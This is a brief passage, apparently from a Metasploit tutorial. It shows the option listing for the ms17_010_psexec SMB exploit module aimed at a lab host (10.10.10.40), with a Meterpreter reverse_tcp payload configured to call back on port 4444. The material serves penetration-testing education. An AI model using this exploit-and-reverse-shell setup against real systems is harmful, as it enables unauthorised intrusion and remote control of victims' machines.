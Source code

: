 - Example within a module:
```bash
msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

---